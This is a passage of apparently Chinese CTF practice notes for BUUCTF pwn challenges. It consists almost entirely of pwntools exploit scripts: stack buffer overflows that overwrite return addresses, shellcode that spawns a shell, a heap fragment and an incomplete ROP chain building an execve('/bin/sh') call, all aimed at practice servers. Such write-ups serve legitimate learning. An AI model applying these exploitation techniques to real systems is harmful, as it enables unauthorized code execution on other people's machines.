 ```python
delete(0)
delete(1)
add(0x8, p32(0x8048945) + p32(0))
printc(0)
io.interactive()
```
# buu043-picoctf_2018_buffer overflow 1
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 25573)
io.sendline(cyclic(40+4) + p32(0x80485CB))
io.interactive()
```
# buu044-jarvisoj_test_your_memory
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27588)
io.sendline(cyclic(19+4) + p32(0x8048440) + p32(0x80487E0)*2)
io.interactive()
```
# buu045-mrctf2020_shellcode
```python
from pwn import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26987)
io.sendline(asm(shellcraft.amd64.sh()))
io.interactive()
```
# buu046-inndy_rop
首先把'/bin/sh'写到bss段然后系统调用。
```python
from pwn import *
context.log_level='debug'
io = process('./pwn')
# io = remote('node4.buuoj.cn', 25928)
int80 = 0x806C943
popeax_ret = 0x80B8016
popebx_edx_ret = 0x806ECD9
popecx_ret = 0x80DE769
addesp0x14_ret = 0x807A75D
bss = 0x80EBFD4
read = 0x806D290
payload = cyclic(12 + 4)

payload += p32(read)			# call read()
payload += p32(addesp0x14_ret)	# return address, add esp to execute latter ROP
payload += p32(0)				# arg #1 of read(): stdin
payload += p32(bss)				# arg #2 of read(): a bss address
payload += p32(0x8)				# arg #3 of read(): read length
payload += p32(0) * 2

payload += p32(popeax_ret)		# eax = 0x11(SYS_EXECVE)
payload += p32(11)
payload += p32(popebx_edx_ret)
```